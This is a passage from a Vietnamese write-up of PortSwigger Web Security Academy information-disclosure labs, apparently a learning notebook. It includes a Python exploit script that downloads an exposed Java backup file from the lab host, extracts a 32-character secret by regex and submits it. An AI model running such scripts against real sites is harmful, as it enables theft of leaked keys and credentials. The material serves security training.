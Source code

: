 đem submit và mình solve được lab

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a1d00e70355effb82fc10ee00600034.web-security-academy.net'

session=requests.Session()

response = session.get(
    url +'/backup/ProductTemplate.java.bak',
    verify=False,
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text)
data_string = match.group()

data = {
    'answer': data_string,
}

response= session.post(
    url + '/submitSolution',
    data=data,
    verify=False,
)

print(response.text)
```

![image](https://hackmd.io/_uploads/HJb6-t-np.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

![image](https://hackmd.io/_uploads/B1eyMK-3p.png)

## 4. Lab: Authentication bypass via information disclosure

link: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

### Đề bài

![image](https://hackmd.io/_uploads/rJHbQtbhp.png)
